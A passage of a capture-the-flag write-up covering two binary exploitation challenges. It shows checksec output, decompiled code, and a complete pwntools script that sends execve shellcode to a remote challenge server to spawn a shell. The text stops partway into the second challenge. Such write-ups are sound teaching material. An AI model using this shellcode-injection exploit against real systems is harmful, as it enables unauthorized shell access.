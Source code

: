 ### Sally Sells Shells

From the name of this challenge, I can already guess this is a shellcode injection challenge. Running the program shows us no prompt and simply crashes upon entering any value. If we use ```checksec```, we can see that the NX bit is disabled, which points to our original presumption.
```
└─$ checksec --file=shellysellsshells 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX disabled   PIE enabled     No RPATH   No RUNPATH   66 Symbols	  No	0		1		shellysellsshells
```

Upon looking at the decompilation, we are proven right. The program calls our input as a function pointer.
```
00001169  int32_t main(int32_t argc, char** argv, char** envp)

00001178      void* fsbase
00001178      int64_t rax = *(fsbase + 0x28)
00001196      void var_208
00001196      gets(buf: &var_208)
000011a7      (&var_208)()
000011bb      if (rax == *(fsbase + 0x28))
000011c3          return 0
000011bd      __stack_chk_fail()
000011bd      noreturn
```

Since writing shellcode is something I still need to work on, I simply copy and pasted some shellcode from the internet which did the trick.
```python
#!/usr/bin/env python3

from pwn import *

sc = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

r = remote('forever.isss.io', 1305)

r.sendline(sc)

r.interactive()
```

### Params

This challenge caused me a lot of frustration, but for an incredibly silly reason that you will see soon. The program prompts us for a name and gives us the option to set the registers to any value. If we look at ```checksec``` we see no pie or canary, but there is a NX bit, so no shellcode.

Upon inspection of the decompilation, it does exactly what we were expecting. It uses the ```gets()``` function to read our input, so obvious overflow opportunity, and then reads our input into the registers at integers. Now, for the embarassing part, I did not notice the ```get_flag``` function at first, and spent an incredible amount of time trying to do a ```execve``` call which is imported by the linker.
```
004011b6  int32_t main(int32_t argc, char** argv, char** envp)

004011c9      puts(str: "hey bb")
004011d5      puts(str: "whats ur name")
004011e6      void var_48
004011e6      gets(buf: &var_48)
004011fe      printf(format: "hey %s\n", &var_48)
0040120a      puts(str: "you can set my registers any day…")
```